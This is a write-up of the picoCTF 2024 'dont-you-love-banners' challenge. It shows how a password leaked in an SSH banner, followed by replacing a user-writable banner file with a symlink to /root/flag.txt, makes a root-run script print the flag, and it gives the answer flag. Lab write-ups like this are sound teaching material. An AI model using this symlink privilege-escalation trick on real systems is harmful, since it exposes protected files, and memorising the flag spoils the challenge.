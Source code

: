 # dont-you-love-banners
- Difficulty: Medium
- Category: `General Skills`  
- Date: 2024-09-21  
tags: `picoCTF 2024` `shell` `browser_webshell_solvable`  
refer to [Source](https://play.picoctf.org/practice/challenge/437?category=5&page=3)

## Description
Can you abuse the banner?
The server has been leaking some crucial information on `tethys.picoctf.net 52619`. Use the leaked information to get to the server.
To connect to the running application use `nc tethys.picoctf.net 53208.` From the above information abuse the machine and find the flag in the /root directory.

## Hints
- Do you know about symlinks?
- Maybe some small password cracking or guessing

## Solution
First, use netcat `tethys.picoctf.net 52619` to see leaked information.
``` shell
$nc tethys.picoctf.net 52619
SSH-2.0-OpenSSH_7.6p1 My_Passw@rd_@1234
```
Then we get the password for tethys.picoctf.net 53208. access it and answer some question.
``` shell
$nc tethys.picoctf.net 53208
*************************************
**************WELCOME****************
*************************************

what is the password?
My_Passw@rd_@1234
What is the top cyber security conference in the world?
DEF CON
the first hacker ever was known for phreaking(making free phone calls), who was it?
John Draper
player@challenge:~$
```
``` shell
# in player@challenge:~$
$ls
banner  text
$cat banner
*************************************
**************WELCOME****************
*************************************
$cat text
keep digging
$ls /root
flag.txt  script.py
$cat /root/flag.txt
cat: /root/flag.txt: Permission denied
$cat /root/script.py
...
```
``` python
# /root/script.py
import os
import pty

incorrect_ans_reply = "Lol, good try, try again and good luck\n"

if __name__ == "__main__":
    try:
      with open("/home/player/banner", "r") as f:
        print(f.read())
    except:
      print("*********************************************")
      print("***************DEFAULT BANNER****************")
      print("*Please supply banner in /home/player/banner*")
      print("*********************************************")

try:
    request = input("what is the password? \n").upper()
    while request:
        if request == 'MY_PASSW@RD_@1234':
            text = input("What is the top cyber security conference in the world?\n").upper()
            if text == 'DEFCON' or text == 'DEF CON':
                output = input(
                    "the first hacker ever was known for phreaking(making free phone calls), who was it?\n").upper()
                if output == 'JOHN DRAPER' or output == 'JOHN THOMAS DRAPER' or output == 'JOHN' or output== 'DRAPER':
                    scmd = 'su - player'
                    pty.spawn(scmd.split(' '))

                else:
                    print(incorrect_ans_reply)
            else:
                print(incorrect_ans_reply)
        else:
            print(incorrect_ans_reply)
            break

except:
    KeyboardInterrupt
```
There is a important thing:
``` python
with open("/home/player/banner", "r") as f:
    print(f.read())
```
And hint said that Do you know about symlinks?  
So link /root/flag.txt to banner
``` shell
$rm banner
$ln -s /root/flag.txt banner
```
And just exit, then access again.
``` shell
$nc tethys.picoctf.net 53208
picoCTF{b4nn3r_gr4bb1n9_su((3sfu11y_ed6f9c71}

what is the password?
```
``` plain
picoCTF{b4nn3r_gr4bb1n9_su((3sfu11y_ed6f9c71}
```

### Improving
